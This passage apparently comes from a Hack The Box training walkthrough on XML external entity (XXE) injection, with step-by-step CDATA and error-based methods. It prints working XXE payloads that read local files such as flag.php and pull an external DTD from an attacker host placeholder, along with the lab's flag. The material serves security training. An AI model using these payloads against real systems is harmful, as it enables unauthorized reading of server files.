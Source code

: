 ```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///flag.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://PWNIP:8000/XXE.dtd">
  %xxe;
]>
```

![[HTB Solutions/CPTS/z. images/a3f7b735860a89fef75358fa6957ca65_MD5.jpg]]

Before forwarding the modified intercepted request, students need to intercept the response:

![[HTB Solutions/CPTS/z. images/07c62812c0fc1d6b1f15bf4c1ca68588_MD5.jpg]]

After forwarding the request and intercepting the response, students will find the flag `HTB{3rr0r5_c4n_l34k_d474}` within it:

![[HTB Solutions/CPTS/z. images/e0ff94c2ecc158e5686b90cbbd7c68a6_MD5.jpg]]

To use the error-based method, students first need to write the following error-causing entity lines to a DTD file on Pwnbox/`PMVPN`:

Code: xml

```xml
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

```
┌─[us-academy-1]─[10.10.14.134]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ cat > XXE.dtd << EOF
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
EOF
```

Subsequently, students need to navigate to `/error/` and fill dummy data in the form as with the `CDATA` method then intercept the request using `Burp Suite`:

![[HTB Solutions/CPTS/z. images/adbc37ae0bff7264fd48484114731e75_MD5.jpg]]

Students then need to append the following XML data after `<?xml version="1.0" encoding="UTF-8"?>`:

Code: xml

```xml
<!DOCTYPE email [
<!ENTITY % remote SYSTEM "http://PWNIP:PWNPO/XXE.dtd">  
%remote;
%error;
]>
```

After instructing `Burp Suite` to intercept the response to this request and forwarding it, students will attain the flag `HTB{3rr0r5_c4n_l34k_d474}` within it (students also need to make sure that their HTTP server from the CDATA method is still running):
